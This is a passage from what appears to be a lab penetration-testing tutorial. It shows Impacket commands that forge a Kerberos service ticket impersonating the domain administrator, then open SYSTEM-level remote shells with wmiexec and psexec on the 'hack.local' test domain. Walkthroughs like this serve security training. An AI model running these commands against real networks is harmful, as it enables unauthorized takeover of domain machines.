 ![](./images/31.png#pic_center)

3. Apply for a service ticket

```bash
# Use getST.py to apply for tickets
python3 getST.py hack.local/test$:Passw0rd -spn cifs/WIN-DATA.hack.local -impersonate administrator -dc-ip 10.10.10.137

# Log in directly, you still need to add the domain name to hosts, otherwise it will not be resolved. The SYSTEM permission is available on psexec
KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
KRB5CCNAME=administrator.ccache python3 psexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
```

![](./images/32.png#pic_cen
ter)
